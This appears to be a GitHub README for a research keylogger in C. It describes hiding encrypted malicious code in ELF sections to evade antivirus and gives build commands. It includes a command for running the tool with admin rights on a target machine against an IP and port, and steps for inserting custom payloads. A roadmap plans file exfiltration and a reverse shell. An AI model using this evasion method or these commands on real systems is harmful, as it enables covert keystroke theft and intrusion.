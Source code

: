 # blackstar

blackstar is a Polymorphic Keylogger written in C, for research purposes only.
It is based on the [whitecomet project](https://github.com/PoCInnovation/Whitecomet-Research).

## Introduction

The goal of the project was to build some knowledge regarding obfuscation,
 as well as Advanced Unix Programming. To achieve that, I looked at how the
 Whitecomet project managed to work around anti-viruses, and I implemented it in
 a [keylogger](github.com/bogdzn/keylogger) I had written before.

### how does whitecomet work ?

To hide malicious code, Whitecomet exploits sections of an ELF binary. It has one
 section for the malicious code, one for the decryption key, and one for a boolean,
 set if the code is encrypted.  Once started for the first time, the program will
 read itself and decrypt the code, then execute it. In WhiteComet's case, the
 malicious code was a [reverse-shell](https://fr.wikipedia.org/wiki/Reverse_shell).

### What are our objectives, then ?

First, we want to understand how to create and manipulate section to change our
binary. Then, we will find a better way to hide our code, because the current
method has some limitations.

### WhiteComet's AV-evasion limitations

Although it is a really cool project, there are still limitiations for the
current approach Whitecomet uses. The first one is that when inspecting the
binary, the sections are one of the first things a researcher looks at. Second is
 that it requires a setup that is not very easy to modify. You must get the exact
 size of your section, so that you decrypt a fixed length. Third is that you still
leave a lot of information present in the binary, that make it easier for somebody
to get clues about what your program does.
We hope to tackle at least some of these problems.

## How do I build the project ?

```bash
# this will encrypt the binary with the bin stored in crypter/
make

# run once to decrypt the program
./blackstar

# run with admin privileges on the target machine
./blackstar -i 192.168.1.69 -p 6969

# clean the repo like so
make fclean
```

## Can I add my own payload instead of using the one that is present ?

Yes, you can ! But you will need to change the `ELF_FUNC_SIZE` according to your
section's size. To check your section size, compile the program without the UPX
packer, and call `size -d -A blackstar` to get the size of all section. You will
need to find the section named as `ELF_CODE` (by default `.banshee`).

To add some code in the section, create a normal C function and add the
`__attribute__((section(ELF_CODE)))` in front of the declaration. You can find
an example in `payload.c`.

## Roadmap

- [x] Crypt the virus from another program
- [x] Create a library for all the common code
- [ ] Create a usable and working spyware, reading and transmitting important files,
    logging keystrokes, and setting up a revshell
- [ ] Add some encryption methods
- [ ] Add python webserver to get a nice web interface with all the retrieved data
